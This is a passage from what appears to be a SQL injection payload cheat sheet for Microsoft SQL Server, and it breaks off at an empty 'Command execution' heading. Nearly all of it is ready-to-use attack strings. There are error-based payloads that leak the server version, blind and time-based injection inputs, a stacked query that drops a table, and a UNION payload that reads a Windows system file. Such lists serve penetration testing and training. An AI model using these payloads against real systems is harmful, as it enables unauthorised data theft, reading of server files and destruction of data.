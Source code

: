 
## MSSQL Error based

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

## MSSQL Blind based

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## MSSQL Time based

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'     comment:   --
```

## MSSQL Stacked Query

Use a semi-colon ";" to add another query

```sql
ProductID=1; DROP members--
```


## MSSQL Read file

**Permissions**: The `BULK` option requires the `ADMINISTER BULK OPERATIONS` or the `ADMINISTER DATABASE BULK OPERATIONS` permission.

```sql
-1 union select null,(select x from OpenRowset(BULK 'C:\Windows\win.ini',SINGLE_CLOB) R(x)),null,null
```


## MSSQL Command execution
